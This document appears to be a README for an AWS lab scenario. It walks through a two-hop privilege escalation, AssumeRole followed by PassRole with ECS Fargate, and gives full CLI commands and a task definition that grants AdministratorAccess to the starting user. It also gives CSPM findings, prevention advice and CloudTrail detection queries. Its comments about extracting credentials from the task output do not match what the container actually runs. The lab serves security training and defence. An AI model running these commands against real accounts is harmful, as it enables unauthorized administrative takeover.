

# Multi-Hop Privilege Escalation via AssumeRole and ECS Fargate

* **Category:** Privilege Escalation
* **Path Type:** multi-hop
* **Target:** to-admin
* **Environments:** prod
* **Pathfinding.cloud ID:** sts-001 + ecs-002
* **Technique:** Assume a role with ECS permissions, then use PassRole combined with ECS Fargate to run a task with an administrative role
* **Terraform Variable:** `enable_single_account_privesc_multi_hop_to_admin_sts_001_to_ecs_002_to_admin`
* **Schema Version:** 1.0.0
* **Attack Path:** starting_user → (sts:AssumeRole) → starting_role → (iam:PassRole + ecs:CreateCluster + ecs:RegisterTaskDefinition + ecs:RunTask) → admin_role (via ECS task) → admin access
* **Attack Principals:** `arn:aws:iam::{account_id}:user/pl-prod-sts001-ecs002-starting-user`; `arn:aws:iam::{account_id}:role/pl-prod-sts001-ecs002-starting-role`; `arn:aws:iam::{account_id}:role/pl-prod-sts001-ecs002-admin-role`
* **Required Permissions:** `sts:AssumeRole` on `arn:aws:iam::*:role/pl-prod-sts001-ecs002-starting-role`; `iam:PassRole` on `arn:aws:iam::*:role/pl-prod-sts001-ecs002-admin-role`; `ecs:CreateCluster` on `*`; `ecs:RegisterTaskDefinition` on `*`; `ecs:RunTask` on `*`
* **Helpful Permissions:** `ec2:DescribeVpcs` (Find default VPC for Fargate network configuration); `ec2:DescribeSubnets` (Find subnets for Fargate network configuration); `ecs:DescribeTasks` (Monitor task status and completion); `iam:ListRoles` (Discover available roles that trust ecs-tasks.amazonaws.com); `iam:GetRole` (View role permissions and trust policies)
* **MITRE Tactics:** TA0004 - Privilege Escalation
* **MITRE Techniques:** T1098.001 - Account Manipulation: Additional Cloud Credentials, T1578 - Modify Cloud Compute Infrastructure
* **Cost Estimate:** ~$1/mo (ECS Fargate tasks incur minimal charges when run briefly for demonstrations)

## Attack Overview

This scenario demonstrates a sophisticated two-hop privilege escalation attack that chains role assumption with Amazon ECS Fargate exploitation. The attack path exploits a common pattern where users are granted the ability to assume roles for operational purposes, and those roles have overly permissive ECS and IAM PassRole permissions that can be abused to gain administrative access.

In the first hop, an attacker with `sts:AssumeRole` permission assumes an intermediate role that has been configured with ECS management capabilities. This initial role assumption is often considered low-risk because the role itself doesn't have direct administrative permissions. However, the combination of `iam:PassRole`, `ecs:CreateCluster`, `ecs:RegisterTaskDefinition`, and `ecs:RunTask` permissions creates a dangerous privilege escalation opportunity.

The second hop leverages these ECS permissions to create infrastructure that executes with elevated privileges. The attacker creates an ECS cluster, registers a task definition that specifies an administrative role as the task role, and then runs the task on Fargate. When the task executes, it receives temporary credentials for the administrative role through the ECS credential provider. The attacker can then exfiltrate these credentials to gain full administrative access to the AWS environment.

This attack chain is particularly insidious because ECS is a legitimate service for running containerized workloads, and the individual permissions involved are commonly granted for DevOps and automation purposes. Organizations often overlook this privilege escalation path because it requires multiple steps and relies on understanding how ECS task roles work.

### MITRE ATT&CK Mapping

- **Tactics**:
  - TA0004 - Privilege Escalation
  - TA0002 - Execution
- **Techniques**:
  - T1098.001 - Account Manipulation: Additional Cloud Credentials
  - T1578 - Modify Cloud Compute Infrastructure
  - T1078.004 - Valid Accounts: Cloud Accounts (role assumption)
  - T1610 - Deploy Container

### Principals in the attack path

- `arn:aws:iam::PROD_ACCOUNT:user/pl-prod-sts001-ecs002-starting-user` (Starting user with only sts:AssumeRole permission on the starting role)
- `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-sts001-ecs002-starting-role` (Intermediate role with ECS management and iam:PassRole permissions)
- `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-sts001-ecs002-admin-role` (Target admin role that trusts ecs-tasks.amazonaws.com)

### Attack Path Diagram



### Attack Steps

1. **Initial Access**: Start as `pl-prod-sts001-ecs002-starting-user` (credentials provided via Terraform outputs)

2. **Reconnaissance** (optional): Use `iam:ListRoles` and `iam:GetRole` to identify assumable roles and understand their permissions

3. **Hop 1 - Assume Starting Role**: Use `sts:AssumeRole` to assume `pl-prod-sts001-ecs002-starting-role` and obtain temporary credentials with ECS management permissions

4. **Hop 2 - Create ECS Cluster**: Use `ecs:CreateCluster` to create a new ECS cluster that will host the malicious task

5. **Hop 2 - Register Task Definition**: Use `ecs:RegisterTaskDefinition` with `iam:PassRole` to register a task definition that specifies `pl-prod-sts001-ecs002-admin-role` as the task role. The task should run a container that extracts and outputs the AWS credentials

6. **Hop 2 - Run Task**: Use `ecs:RunTask` to launch the task on Fargate, which will execute with the admin role's permissions

7. **Hop 2 - Extract Credentials**: Retrieve the task's output (via CloudWatch Logs or task metadata) to obtain the admin role's temporary credentials

8. **Verification**: Configure AWS CLI with the extracted admin credentials and verify administrative access by performing privileged operations (e.g., `iam:ListUsers`, `iam:CreateUser`)

### Scenario specific resources created

| ARN | Purpose |
| -- | -- |
| `arn:aws:iam::PROD_ACCOUNT:user/pl-prod-sts001-ecs002-starting-user` | Scenario-specific starting user with sts:AssumeRole permission on the starting role |
| `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-sts001-ecs002-starting-role` | Intermediate role with ECS management permissions and iam:PassRole on the admin role |
| `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-sts001-ecs002-admin-role` | Target admin role with AdministratorAccess, trusts ecs-tasks.amazonaws.com (also serves as task execution role) |

## Attack Lab

### Prerequisites

1. Install the `plabs` CLI:
   ```bash
   brew install pathfinding-labs/tap/plabs
   ```
2. Configure your AWS profiles in `~/.plabs/plabs.yaml` (or run `plabs init` if you haven't already)

### Deploy with plabs non-interactive

```bash
plabs enable enable_single_account_privesc_multi_hop_to_admin_sts_001_to_ecs_002_to_admin
plabs apply
```

### Deploy with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to enable it
4. Press `d` to deploy

### Executing the automated demo_attack script

The script will:
1. Display a step-by-step walkthrough with color-coded output
2. Assume the starting role to obtain ECS management permissions
3. Create an ECS cluster for hosting the malicious task
4. Register a task definition with the admin role attached
5. Run the task on Fargate and wait for completion
6. Extract the admin role credentials from the task output
7. Verify successful privilege escalation to administrator
8. Output standardized test results for automation

#### Resources created by attack script

- ECS cluster (`pl-prod-sts001-ecs002-attack-cluster`)
- ECS task definition (`pl-prod-sts001-ecs002-attack-task`) with admin role attached
- CloudWatch log group (`/ecs/pl-sts001-ecs002-admin-escalation`)
- Temporary task definition JSON file (`/tmp/task-definition.json`)

#### With plabs non-interactive

```bash
plabs demo --list
plabs demo sts-001-to-ecs-002-to-admin
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `r` to run the demo script

### Executing the attack manually

If you prefer to execute the attack manually:

```bash
# Step 1: Configure starting user credentials
export AWS_ACCESS_KEY_ID="<starting_user_access_key>"
export AWS_SECRET_ACCESS_KEY="<starting_user_secret_key>"
unset AWS_SESSION_TOKEN

# Step 2: Assume the starting role (Hop 1)
ROLE_CREDS=$(aws sts assume-role \
    --role-arn arn:aws:iam::ACCOUNT_ID:role/pl-prod-sts001-ecs002-starting-role \
    --role-session-name privesc-session)

export AWS_ACCESS_KEY_ID=$(echo $ROLE_CREDS | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $ROLE_CREDS | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $ROLE_CREDS | jq -r '.Credentials.SessionToken')

# Step 3: Create ECS cluster (Hop 2)
aws ecs create-cluster --cluster-name pl-prod-sts001-ecs002-attack-cluster

# Step 4: Get VPC and subnet information for Fargate
VPC_ID=$(aws ec2 describe-vpcs --filters "Name=isDefault,Values=true" --query 'Vpcs[0].VpcId' --output text)
SUBNET_ID=$(aws ec2 describe-subnets --filters "Name=vpc-id,Values=$VPC_ID" --query 'Subnets[0].SubnetId' --output text)

# Step 5: Register task definition with admin role (Hop 2 - PassRole)
cat > /tmp/task-definition.json << 'EOF'
{
    "family": "pl-prod-sts001-ecs002-attack-task",
    "taskRoleArn": "arn:aws:iam::ACCOUNT_ID:role/pl-prod-sts001-ecs002-admin-role",
    "executionRoleArn": "arn:aws:iam::ACCOUNT_ID:role/pl-prod-sts001-ecs002-admin-role",
    "networkMode": "awsvpc",
    "requiresCompatibilities": ["FARGATE"],
    "cpu": "256",
    "memory": "512",
    "containerDefinitions": [
        {
            "name": "credential-extractor",
            "image": "amazon/aws-cli:latest",
            "essential": true,
            "command": [
                "iam",
                "attach-user-policy",
                "--user-name",
                "pl-prod-sts001-ecs002-starting-user",
                "--policy-arn",
                "arn:aws:iam::aws:policy/AdministratorAccess"
            ],
            "logConfiguration": {
                "logDriver": "awslogs",
                "options": {
                    "awslogs-create-group": "true",
                    "awslogs-group": "/ecs/pl-sts001-ecs002-admin-escalation",
                    "awslogs-region": "us-east-1",
                    "awslogs-stream-prefix": "ecs"
                }
            }
        }
    ]
}
EOF

aws ecs register-task-definition --cli-input-json file:///tmp/task-definition.json

# Step 6: Run the task on Fargate (Hop 2)
TASK_ARN=$(aws ecs run-task \
    --cluster pl-prod-sts001-ecs002-attack-cluster \
    --task-definition pl-prod-sts001-ecs002-attack-task \
    --launch-type FARGATE \
    --network-configuration "awsvpcConfiguration={subnets=[$SUBNET_ID],assignPublicIp=ENABLED}" \
    --query 'tasks[0].taskArn' --output text)

# Step 7: Wait for task to complete and get credentials from logs
echo "Waiting for task to complete..."
aws ecs wait tasks-stopped --cluster pl-prod-sts001-ecs002-attack-cluster --tasks $TASK_ARN

# Step 8: Retrieve credentials from CloudWatch Logs
# (The demo script handles this more elegantly)

# Step 9: Use admin credentials (extracted from task output)
export AWS_ACCESS_KEY_ID="<extracted_access_key>"
export AWS_SECRET_ACCESS_KEY="<extracted_secret_key>"
export AWS_SESSION_TOKEN="<extracted_session_token>"

# Step 10: Verify admin access
aws iam list-users
aws sts get-caller-identity
```

### Cleanup

#### With plabs non-interactive

```bash
plabs cleanup --list
plabs cleanup sts-001-to-ecs-002-to-admin
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `c` to run the cleanup script

### Teardown with plabs non-interactive

```bash
plabs disable enable_single_account_privesc_multi_hop_to_admin_sts_001_to_ecs_002_to_admin
plabs apply
```

### Teardown with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to disable it
4. Press `D` to destroy

## Detecting Misconfiguration (CSPM)

### What CSPM tools should detect

A properly configured Cloud Security Posture Management tool should identify the following risks in this scenario:

**High Severity Findings:**
- IAM role has `ecs:RegisterTaskDefinition` combined with `iam:PassRole` - allows task role injection
- IAM role can pass administrative roles to ECS tasks
- Administrative role trusts `ecs-tasks.amazonaws.com` - can be assumed by ECS tasks
- Multi-hop privilege escalation path from starting user to administrator via ECS
- User can assume role with dangerous ECS/PassRole combination

**Medium Severity Findings:**
- IAM role has `ecs:CreateCluster` permission - allows creation of compute resources
- IAM role has `ecs:RunTask` permission - allows code execution in account
- Administrative role exists that trusts AWS service principals
- ECS task execution role with broad permissions exists

**Attack Path Detection:**
- Path: `starting-user` -> `sts:AssumeRole` -> `starting-role` -> `iam:PassRole + ecs:*` -> `admin-role` (via ECS task)
- Risk: Complete environment compromise through chained privilege escalation via container service

### Prevention recommendations

- **Restrict iam:PassRole with conditions**: Limit which roles can be passed and to which services using conditions: `"Condition": {"StringEquals": {"iam:PassedToService": "ecs-tasks.amazonaws.com"}, "ArnNotLike": {"iam:AssociatedResourceArn": "*admin*"}}`

- **Separate ECS permissions from PassRole**: Avoid granting both `ecs:RegisterTaskDefinition` and `iam:PassRole` to the same principal - this combination enables task role injection attacks

- **Use permission boundaries on task roles**: Apply permission boundaries that explicitly deny administrative actions to roles that trust `ecs-tasks.amazonaws.com`

- **Restrict trust policies on administrative roles**: Administrative roles should not trust service principals like `ecs-tasks.amazonaws.com`. Use dedicated, least-privilege task roles instead

- **Implement SCPs for ECS task roles**: Organization-level SCPs can prevent ECS tasks from using roles with administrative permissions regardless of their attached policies

- **Monitor ECS task definitions**: Set up CloudWatch Events/EventBridge rules to alert when task definitions are registered with privileged task roles

- **Use AWS Config rules**: Implement Config rules to detect IAM roles with AdministratorAccess that trust ECS service principals

- **Require task definition review**: Implement approval workflows for task definition changes that include privileged roles

- **Enable VPC Flow Logs**: Monitor network traffic from ECS tasks to detect credential exfiltration attempts via the container metadata service

- **Limit sts:AssumeRole permissions**: Use resource-based conditions to restrict which roles users can assume, preventing lateral movement to roles with dangerous permissions

## Detection Abuse (CloudSIEM)

### CloudTrail events to monitor

- `STS: AssumeRole` — Role assumption (initial escalation step); monitor for assumption of roles with ECS management permissions
- `ECS: CreateCluster` — New ECS cluster created; suspicious when not part of a normal deployment workflow
- `ECS: RegisterTaskDefinition` — Task definition registered; critical when `taskRoleArn` points to a privileged role
- `ECS: RunTask` — Task execution initiated; high severity when combined with a recently registered task definition bearing an admin role
- `IAM: PassRole` — Role passed to ECS service (implicit in RegisterTaskDefinition); critical when the passed role has AdministratorAccess

### Detection queries

**AWS CloudTrail Lake query for suspicious ECS + IAM activity:**
```sql
SELECT
    eventTime, eventName, userIdentity.arn,
    requestParameters.taskRoleArn,
    requestParameters.cluster
FROM cloudtrail_logs
WHERE eventName IN ('RegisterTaskDefinition', 'RunTask', 'CreateCluster', 'AssumeRole')
    AND eventTime > date_sub(current_date, 1)
ORDER BY eventTime
```

**Query for task definitions with administrative roles:**
```sql
SELECT
    eventTime, userIdentity.arn, requestParameters.taskRoleArn
FROM cloudtrail_logs
WHERE eventName = 'RegisterTaskDefinition'
    AND requestParameters.taskRoleArn LIKE '%admin%'
```

### Detonation logs

_Detonation log integration (Stratus Red Team / Grimoire) is planned for a future release._

## References

- [pathfinding.cloud - sts-001](https://pathfinding.cloud/paths/sts-001) - STS AssumeRole privilege escalation
- [pathfinding.cloud - ecs-002](https://pathfinding.cloud/paths/ecs-002) - ECS PassRole + Task execution privilege escalation
- [MITRE ATT&CK T1098.001](https://attack.mitre.org/techniques/T1098/001/) - Account Manipulation: Additional Cloud Credentials
- [MITRE ATT&CK T1578](https://attack.mitre.org/techniques/T1578/) - Modify Cloud Compute Infrastructure
- [AWS ECS Task IAM Roles](https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-iam-roles.html) - AWS documentation on ECS task roles
- [AWS IAM PassRole](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_passrole.html) - Understanding the PassRole permission
- [AWS Fargate Security](https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/security-fargate.html) - Best practices for securing Fargate workloads
